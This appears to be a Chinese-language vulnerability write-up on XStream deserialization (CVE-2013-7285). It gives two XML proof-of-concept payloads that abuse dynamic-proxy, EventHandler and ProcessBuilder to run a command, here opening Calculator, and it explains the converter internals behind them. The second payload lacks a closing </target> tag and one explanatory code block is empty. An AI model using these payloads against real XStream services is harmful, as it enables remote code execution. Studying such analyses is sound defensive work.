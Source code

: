 ## XStream反序列化

### CVE-2013-7285
* Affected Version <= 1.4.6 (and 1.4.10)  
* POC
```
<sorted-set>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>/System/Applications/Calculator.app</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

* #### POC拆解
动态代理（在运行期间动态创建接口对象）。demo如下，Hello是要实现的接口。hello.morning会自动调用InvocationHandler.invoke
```
InvocationHandler handler = new InvocationHandler() {
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {...}
};

Hello hello = (Hello) Proxy.newProxyInstance(
    Hello.class.getClassLoader(), // 传入ClassLoader
    new Class[] { Hello.class }, // 传入要实现的接口
    handler); // 传入处理调用方法的InvocationHandler
hello.morning("Bob");
```
poc的动态代理写法，compareTo会自动调用EventHandler.invoke
```
EventHandler ih = new EventHandler(new java.lang.ProcessBuilder("open","/System/Applications/Calculator.app"),"start",null,null);
Comparable cp = (Comparable) Proxy.newProxyInstance(Comparable.class.getClassLoader(),new Class[] { Comparable.class },ih);
cp.compareTo(null);
```
上述Java对象调用过程如何转换成xml？
外层，动态代理对象Proxy.newProxyInstance参数，官方也给出了动态代理转换Converter的Demo，即xml对应interface和InvocationHandler参数，类需要采用全限定类名
```
public static Object newProxyInstance(ClassLoader loader,Class<?>[] interfaces,InvocationHandler h)

<dynamic-proxy>
  <interface>java.lang.Comparable</interface>
  <handler class="java.beans.EventHandler">
    ...
  </handler>
</dynamic-proxy>
```
内层，EventHandler构造函数赋值了该类的四个属性，后两个参数值传入的null，前两个按照target和action标签生成
```
public EventHandler(Object target, String action, String eventPropertyName, String listenerMethodName) {
  this.target = target;
  this.action = action;      
  this.eventPropertyName = eventPropertyName;
  this.listenerMethodName = listenerMethodName;
}

<target class="java.lang.ProcessBuilder">
  ...
</target>
<action>start</action>
```
最内层，传入ProcessBuilder，赋值的是该类的command属性。所以对应xml标签是command
```
public ProcessBuilder(String... command) {
    this.command = new ArrayList<>(command.length);
    for (String arg : command)
        this.command.add(arg);
}

<command>
    <string>open</string>
    <string>/System/Applications/Calculator.app</string>
</command>
```

* #### 漏洞成因
xml的解析也就是反序列化过程，用fromXML()方法作为入口。重点在于标签的解析。（1）标签与类、类属性之间的转换 （2）标签属性与类属性值的转换。
反序列化过程最核心的两步: 
```
# (1)
Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);  // 获取标签; realClass查找标签对应的接口和类;  "interface java.util.SortedSet"
Object result = this.convertAnother((Object)null, type);  // 根据type接口查/类找其实现类; 然后根据实现类找到对应的Converter; 
```
具体看一下`converAnother()`方法，实际上就是根据标签的类型找到其实现类，进而找到处理该类的转换器，进行具体反序列化过程
```
# (2)
public Object convertAnother(Object parent, Class type, Converter converter) {
    type = this.mapper.defaultImplementationOf(type);   // type对应的实现类 "class java.util.TreeSet"
    if (converter == null) {
        converter = this.converterLookup.lookupConverterForType(type);  //转换器 TreeSetConverter
    } ...
    return this.convert(parent, type, converter);  // 进入到转换器的unmarshal方法，如TreeSetConverter.unmarshal
}
```
对于这个POC来说，TreeSetConverter.unmarshal方法中有如下一行代码，表明TreeSetConverter实际用了treeMapConverter对comparator进行解析。所以另一种poc是用`tree-map`标签替换了`sorted-set`标签
```
this.treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);  // -> this.putCurrentEntryIntoMap(reader, context, result, sortedMap);
```
这一行的实际调用代码如下
```
# (3)
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
    Object key = this.readItem(reader, context, map); // 这一步和(1)中的代码一样，对子标签开始上述反序列化过程。上述poc中的子标签是dynamic-proxy，对应转换器就是DynamicProxyConverter
    target.put(key, key);
}
```
这里解析一下DynamicProxyConverter的unmarshal过程
```

```

* #### POC2
```
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>open</string>
                        <string>/System/Applications/Calculator.app</string>
                    </command>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
